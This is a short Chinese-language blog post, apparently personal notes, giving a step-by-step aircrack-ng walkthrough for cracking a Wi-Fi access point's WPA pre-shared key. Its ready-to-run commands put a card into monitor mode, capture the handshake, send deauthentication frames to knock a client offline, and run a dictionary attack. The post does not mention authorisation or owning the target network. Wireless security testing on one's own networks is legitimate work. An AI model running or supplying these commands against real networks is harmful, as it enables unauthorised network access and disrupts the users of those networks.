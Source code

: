 ```yaml
---
layout: "post"
title: "aircrack"
categories:
- "tool"
---
```


<!--more-->

***
Table of Content

* TOC
{:toc}
***

**事先申明，以下方法仅作为个人参看，只适用于特定的系统特定网卡/驱动，欲知全面详细的教程，请自行google aircrack**


*以下的例子假设要破解的AP的channel为9*

# 0. 安装aircrack

# 1. 以monitor模式启动无线网卡设备

执行：

    $ sudo airmon-ng stop wlan0mon
    $ sudo airmon-ng start wlan0 9

此时，系统输出：

    PHY     Interface       Driver          Chipset

    phy0    wlan0           ath9k           Qualcomm Atheros AR9285 Wireless Network Adapter (PCI-Express) (rev 01)
                    (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                    (mac80211 station mode vif disabled for [phy0]wlan0)
  
如果需要退出monitor mode，则输入：

    $ sudo airmon-ng stop wlan0mon

# 2. 启动airodump-ng来收集authentication handshake

执行：

    $ airodump-ng [-c <channel>] [--bssid <AP MAC>] -w psk <interface>
    # e.g. $ airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon
    # e.g. $ airodump-ng -c 9 -w psk wlan0mon

其中：

* -c 9: channel for the wireless network
* --bssid 00:14:6C:7E:40:80: 想要破解的AP MAC address
* -w psk: 输出文件的前缀，包含IVs
* wlan0mon: 无线网卡接口名

# 3. 同时打开另一个窗口, 执行aireplay-ng使连接在你想要破解的AP上的客户端瞬间断开连接，触发重连

执行：

    $ aireplay-ng -0 <times> -a <AP MAC>  -c <CLIENT MAC> <interface>
    # e.g. $ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

其中：

* -0: deauthentication
* 1: number of deauths to send
* -a 00:14:6C:7E:40:80: MAC address of AP
* -c 00:0F:B5:FD:FB:C2: MAC address of client you're deauthing
* wlan0mon: interface name

**注意**：在之前的窗口（2），只有当`handshake`在右上角显示才意味着包含加密密码的包已经获得。记得保持你的网卡channel和你要破解的AP的channel一致。

# 4. 执行aircrack-ng来破解pre-shared key

执行：

    $ aircrack-ng -w <dict file> -b <AP MAC> <package name>
    # e.g. $ aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap

其中：

* -w password.lst: File name of the dictionary file
* psk*.cap:  Name of group of files containing the captured packets. 

